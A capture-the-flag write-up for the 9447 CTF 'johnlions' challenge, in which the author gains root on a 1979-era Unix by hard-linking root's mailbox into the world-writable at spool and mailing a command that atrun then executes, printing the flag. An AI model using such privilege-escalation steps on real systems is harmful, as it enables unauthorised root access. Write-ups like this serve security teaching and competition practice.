 #9447 CTF - johnlions (writeup)


####Description:

 - johnlions (250pts)
 - telnet johnlions.9447.plumbing
 - login ctf


####Playing

The first thing done was to list the content of current dir. This revealed the precious flag, but as expected I couldn't read it.  
```
$ ls -la
total 134
drwxrwxr-x 9 root      272 Sep 22 06:38 .
drwxrwxr-x 9 root      272 Sep 22 06:38 ..
drwxrwxr-x 2 bin      2512 Sep 22 06:38 bin
-rwxr-xr-x 1 bin      8986 Jun  8  1979 boot
drwxrwxr-x 2 bin       208 Sep 22 05:56 dev
drwxrwxr-x 2 bin       336 Sep 22 06:24 etc
-r-------- 1 root       28 Sep 22 06:25 flag
drwxrwxr-x 2 bin       320 Sep 22 05:33 lib
drwxrwxr-x 2 root       96 Sep 22 05:46 mdec
drwxrwxrwx 2 root      112 Sep 22 06:36 tmp
-rwxr-xr-x 1 root    51982 Jun  8  1979 unix
drwxrwxr-x12 root      208 Sep 22 05:58 usr
$ cat flag
cat: can't open flag
```

The next thing done was to look for suid binaries and see if some of them can be used to 
escalate privileges.

```
$ find / -user root -perm -4000 -print
/bin/mv
/bin/login
/bin/mail
/bin/mkdir
/bin/newgrp
/bin/passwd
/bin/su
/bin/rmdir
/usr/lib/atrun
```


The /usr/lib/atrun seemed an interesting vector, it runs jobs queued by 'at'. This was abused in the past to execute command as root. The attack is possible because the /usr/spool/at is writable by anyone. What is needed is to create a file in a specific format in this directory and wait to atrun execute it. We can create a link to a file owned by root and try to inject our commands there.

#### The attack

Create the link
```
$ ln /usr/spool/mail/root /usr/spool/at/88.265.0824.21
```

Now send a mail to root with the command you want to execute
```
$ mail root
chmod 777 /flag
```

Wait and see the result
```
$ ls -la /flag
-rwxrwxrwx 1 root       28 Sep 22 06:25 /flag
$ cat /flag
9447{h4cking_like_its_1979}
```

###The flag: 9447{h4cking_like_its_1979}
